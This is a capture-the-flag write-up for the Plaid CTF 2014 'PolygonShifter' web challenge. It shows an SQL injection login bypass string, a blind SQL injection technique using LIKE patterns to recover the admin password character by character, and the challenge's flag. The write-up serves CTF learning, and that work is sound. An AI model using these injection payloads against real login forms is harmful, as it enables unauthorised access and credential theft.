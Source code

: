 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into the source code, we learn that there is a ‘secret’ admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let’s try to log in to this admin account. We don’t have the credentials, so we’ll try SQL injection instead:

* Username: `admin' OR 'a'='a`
* Password: `random`

Great, we’re logged in! We are welcomed with the following message:

> Hello, admin!! My password is the flag!

It seems like we need to find the password using SQL injection. Let’s peek into the source code some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, we cannot use the `id`s or `name`s of these fields to automate the process since they change for every request. No problem — we don’t really need those anyway. The source code doesn’t seem to have any more input fields, so we can just input our username in whatever’s the first input field on the page, and the password into the second field.

```js
var arr = document.getElementsByTagName('input');
arr[0].value = 'admin';
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we manage to successfully log in as admin using these values, we know that our query succeeded and that there’s an `a` in the password. Using a similar technique, we can slowly figure out the password character by character (cfr. [the WhatsCat challenge write-up](https://github.com/ctfs/write-ups/tree/master/plaid-ctf-2014/whatscat)).

We wrote a [PhantomJS](http://phantomjs.org/) script for this named [`client.js`](client.js). Run it as follows:

```bash
$ phantomjs client.js "(password like 'a%')"
```

After some testing, we find that the flag is `n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm`.

## Other write-ups

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
* <https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-100-blind-sql-injection>
* <http://eindbazen.net/2014/04/plaidctf-2014-polygonshifter-100/>
